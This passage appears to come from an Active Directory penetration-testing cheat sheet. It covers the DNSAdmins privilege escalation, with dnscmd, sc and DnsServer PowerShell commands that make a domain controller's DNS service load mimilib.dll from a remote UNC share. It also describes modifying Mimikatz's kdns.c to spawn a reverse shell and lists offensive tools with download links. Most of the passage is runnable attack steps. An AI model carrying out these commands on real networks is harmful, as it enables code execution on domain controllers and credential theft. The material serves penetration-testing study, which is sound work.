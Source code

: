 ```powershell
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\d11\mimilib.dll
```

### <span style="color:#F1C232">2. Restart the DNS service</span>

```powershell
PS> cmd
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```

### <span style="color:#F1C232">3. Using DNSServer module</span>

```powershell
$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.50.100\d11\mimilib.d11"
Set-DnsServerSetting -Inputobject $dnsettings -ComputerName dcorp-dc -Verbose
```

## <span style="color:lightgreen">Custom Exploit for Rev shell</span>
We can edit the source code of **kdns.c** from *mikikatz* source code and add our own malicious payload using the *system()* function and get a reverse shell back to us.

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz download from here : [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. PowerView download from here : [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
3. PowerView Dev download from here : [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
4. Invoke-UserHunter download from here : [Invoke-UserHunter.ps1](https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-UserHunter.ps1
)
5. keko download from here : [keko](https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20211214)
6. DnsCMD download from here : [DnsCMD](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)
7. tgsrepcrack.py download from here : [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
8. ASREPRoast download from here : [ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
